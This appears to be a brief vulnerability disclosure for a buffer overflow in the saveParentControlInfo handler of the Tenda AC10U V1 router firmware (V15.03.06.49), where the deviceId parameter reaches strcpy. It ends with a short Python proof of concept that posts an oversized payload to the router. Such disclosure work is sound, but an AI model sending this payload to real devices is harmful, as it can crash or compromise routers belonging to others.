


# buffer overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buffer overflow in httpd/saveParentControlInfo

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:




get value from deviceId 



finall call strcpy ,cause buff overflow


## POC
```
url = "http://192.168.1.13/goform/saveParentControlInfo"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'deviceId': payload})
```
